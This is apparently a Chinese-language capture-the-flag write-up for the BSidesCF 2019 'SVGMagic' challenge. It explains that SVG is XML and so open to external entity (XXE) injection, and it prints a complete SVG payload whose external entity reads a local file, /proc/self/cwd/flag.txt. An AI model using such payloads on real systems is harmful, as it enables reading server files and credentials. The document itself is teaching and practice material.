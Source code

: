 ```yaml
---
title: '[BSidesCF 2019]SVGMagic'
date: 2024-07-25 18:48:57
tags: xxe
categories: 刷题笔记
---
```


## [BSidesCF 2019]SVGMagic(xxe)

SVG是一种用XML定义的语言，SVG图形是可交互的和动态的，可以在SVG文件中嵌入动画元素或通过脚本来定义动画。

也就是说SVG是个XML，我们就能想到xxe

详解：https://www.freebuf.com/vuls/175451.html

我们知道，XML被设计用于传输和存储数据，然后这个漏洞就是利用了，应用程序在解析XML输入时，没有禁止外部实体的加载。
就拿下面的这个来说

<!--more-->

```
<!ENTITY file SYSTEM "file:///proc/self/cwd/flag.txt" >
```

这个就是外部实体，加载了flag.txt,然后输出，也就是：应该是实体引用，把加载的东西放出来

```
<svg height="100" width="1000">
  <text x="10" y="20">&file;</text>
</svg>
```

payload

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY file SYSTEM "file:///proc/self/cwd/flag.txt" >
]>
<svg height="100" width="1000">
  <text x="10" y="20">&file;</text>
</svg>

```

得到flag

![image-20240725185654902](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407251856981.png)
